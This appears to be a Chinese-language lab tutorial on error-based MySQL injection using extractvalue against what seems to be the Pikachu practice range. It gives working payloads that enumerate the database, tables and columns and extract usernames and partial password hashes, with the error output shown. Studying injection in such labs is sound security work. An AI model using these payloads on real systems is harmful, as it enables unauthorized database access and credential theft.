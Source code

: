 ### 1、基础知识：
#### mysql中，16进制在语句在执行过程中，不需要加引号
![image](https://github.com/498946975/Security/blob/master/images/sql_27.png)
![image](https://github.com/498946975/Security/blob/master/images/sql_28.png)
```sql
select '~' == select 0x7e
```
#### group_concat和concat
```yaml
group_concat: 把同一列的，多行，拼接到一起
concat: 把同一行的，多个数据，拼接到一起
```
```sql
SELECT concat(username,create_date) FROM `user` WHERE id = 1;
```
![image](https://github.com/498946975/Security/blob/master/images/sql_29.png)
#### mysql中extractvalue函数
```yaml
extractvalue函数，在执行过程中，会解析sql语句，并返回
```
```shell script
extractvalue(x,y)
x: xml文件的名称，在注入的过程中随便写
y: xml文件的路径，concat(0x7e,sql语句)
```
#### limit函数
```sql
limit 1,1 #  从第一个开始返回，返回1个
limit 2,1 #  从第二个开始返回，返回1个
```

### 2、所有sql注入的逻辑
```shell script
爆库名-->爆表名-->爆列名-->最后才能得到数据
```
### 3、爆库名称
```sql
SELECT username FROM `user` WHERE id='1' AND extractvalue (1,concat(0x7e,DATABASE ()));#
```
```sql
1' and extractvalue(1,concat(0x7e,database()));#
```
![image](https://github.com/498946975/Security/blob/master/images/sql_32.png)
### 4、爆表的数量
```sql
表的数量
SELECT COUNT(table_name) FROM information_schema.`TABLES` WHERE table_schema = DATABASE()
```
```sql
爆破语句
1' AND extractvalue (1, concat(0x7e,(SELECT COUNT( table_name ) FROM information_schema.`TABLES` WHERE table_schema = DATABASE ())));#'
```
![image](https://github.com/498946975/Security/blob/master/images/sql_30.png)
```yaml
XPATH syntax error: '~5'
其中，5，就是爆破出来的表的个数
```
### 5、爆表名称
```sql
SELECT table_name FROM information_schema.`TABLES` WHERE table_schema = DATABASE () LIMIT 1,1
```
```sql
1' AND extractvalue (1, concat(0x7e,(SELECT table_name FROM information_schema.`TABLES` WHERE table_schema = DATABASE () LIMIT 1,1 )));#
```
![image](https://github.com/498946975/Security/blob/master/images/sql_31.png)
#### 总共5个表，分别爆破出来名称是
```sql
1' AND extractvalue (1, concat(0x7e,(SELECT table_name FROM information_schema.`TABLES` WHERE table_schema = DATABASE () LIMIT 1,1 )));# member
1' AND extractvalue (1, concat(0x7e,(SELECT table_name FROM information_schema.`TABLES` WHERE table_schema = DATABASE () LIMIT 2,1 )));# message
1' AND extractvalue (1, concat(0x7e,(SELECT table_name FROM information_schema.`TABLES` WHERE table_schema = DATABASE () LIMIT 3,1 )));# users
1' AND extractvalue (1, concat(0x7e,(SELECT table_name FROM information_schema.`TABLES` WHERE table_schema = DATABASE () LIMIT 4,1 )));# xssblind
1' AND extractvalue (1, concat(0x7e,(SELECT table_name FROM information_schema.`TABLES` WHERE table_schema = DATABASE () LIMIT 0,1 )));# httpinfo
```

### 6、爆users表中，列的数量和名称
```sql
users表中的列的数量
1' and extractvalue(1,concat(0x7e,(select count(column_name) from information_schema.columns where  table_schema = DATABASE () and table_name='users')));#
```
![image](https://github.com/498946975/Security/blob/master/images/sql_33.png)
```sql
users表中，第一列的名称
1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where  table_schema = DATABASE () and table_name='users' limit 0,1)));#
```
![image](https://github.com/498946975/Security/blob/master/images/sql_34.png)
#### 总共4列，分别爆破出来的名称是
```sql
1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where  table_schema = DATABASE () and table_name='users' limit 0,1)));# id
1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where  table_schema = DATABASE () and table_name='users' limit 1,1)));# username
1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where  table_schema = DATABASE () and table_name='users' limit 2,1)));# password
1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where  table_schema = DATABASE () and table_name='users' limit 3,1)));# level
```
### 7、爆破users表的具体数据
#### 先得到id这一列的数据
```sql
1' and extractvalue(1,concat(0x7e,(select group_concat(id) from users )));#
```
![image](https://github.com/498946975/Security/blob/master/images/sql_35.png)
#### 再分别得到id=1，2，3的用户名和密码
```sql
1' and extractvalue(1,concat(0x7e,(select concat(username,password) from users where id=1)));# admine10adc3949ba59abbe56e057f2
1' and extractvalue(1,concat(0x7e,(select concat(username,password) from users where id=2)));# pikachu670b14728ad9902aecba32e2
1' and extractvalue(1,concat(0x7e,(select concat(username,password) from users where id=3)));# teste99a18c428cb38d5f2608536789
```
#### 由于报错的位置显示字符数量有限，可以使用substr()函数
```sql
SUBSTR(显示的内容 FROM 1 FOR 4) 	# 从第1个开始的，显示到第4个字符
```
```sql
1' and extractvalue(1,concat(0x7e,(select SUBSTR(concat(username,password) FROM 1 FOR 4) from users where id=1)));#
```
![image](https://github.com/498946975/Security/blob/master/images/sql_36.png)